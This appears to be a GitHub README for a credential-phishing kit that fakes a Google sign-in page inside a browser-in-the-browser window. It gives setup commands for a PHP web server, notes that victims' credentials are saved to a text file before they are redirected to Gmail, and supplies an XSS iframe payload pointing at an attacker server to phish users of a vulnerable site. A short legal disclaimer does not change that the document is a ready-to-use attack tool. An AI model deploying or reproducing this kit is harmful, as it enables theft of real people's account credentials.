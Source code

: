 # GoogleBITB

This repo contains a fake two-part Google Login implemented within a Browser-In-The-Browser attack window. It can be used on a web server that supports PHP files. Any entered credentials are saved in <i>/opt/GoogleBITB/creds.txt</i>. The Domain Suffix can be changed from <b>@client.com</b> to any site of your choosing (to do this, just edit line 21 of login_page.html). Follow steps below for a quick and easy setup.

<p align='center'>
<img alt='Email Page' src='http://165.227.79.102/img/4.png?q=1' style='width:800px;'/>
</p>

Legal Disclaimer: Usage of this repo for attacking targets without prior consent is illegal. It is the end user's responsiblity to obey applicable local, state and federal laws. Developer assumes no liability for any misuse or damage caused by this repo.

### Get Started

Run the below commands in the <b>/var/www/html</b> folder of your web server.

```
git clone https://github.com/jakedmurphy1/GoogleBITB.git
```

```
cd GoogleBITB
```

```
chmod 666 creds.txt
```
Move the credentials file into a non-public folder:
```
mkdir /opt/GoogleBITB && mv creds.txt /opt/GoogleBITB/creds.txt
```

Then visit <i>/GoogleBITB/index.html</i> in your browser and give it a try! Any gathered credentials will be stored in <i>/opt/GoogleBITB/creds.txt</i>

Users will be prompted to close the window and redirected to gmail.com.

### Getting Creds from a XSS Attack

You can use this repo to steal credentials through a XSS attack. Just set it up and use the following XSS payload:
```
<iframe style='border:none;width:100%;height:100%' scrolling='no' src='https://[ATTACKER_SERVER]/GoogleBITB/index.html'/>
```
<i> Be sure to have HTTPS on your server or the iframe will not render.</i>

This payload will create a frame within frame (inception) prompting the user to sign in from what appears to be the vulnerable application. 

### Sources
https://github.com/jakedmurphy1/GooglePhishing

https://github.com/mrd0x/BITB
